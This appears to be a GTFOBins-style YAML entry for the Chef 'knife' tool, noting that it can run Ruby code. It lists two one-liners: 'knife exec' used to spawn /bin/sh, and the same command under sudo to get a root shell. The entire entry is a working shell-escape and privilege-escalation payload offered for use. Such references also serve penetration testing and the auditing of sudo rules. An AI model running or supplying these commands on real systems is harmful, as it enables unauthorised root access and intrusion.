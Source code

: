```yaml
---
description: This is capable of running [`ruby`](/ptbins/ruby/) code.
functions:
  shell:
    - code: |
        knife exec -E 'exec "/bin/sh"'
  sudo:
    - code: |
        sudo knife exec -E 'exec "/bin/sh"'
---
```

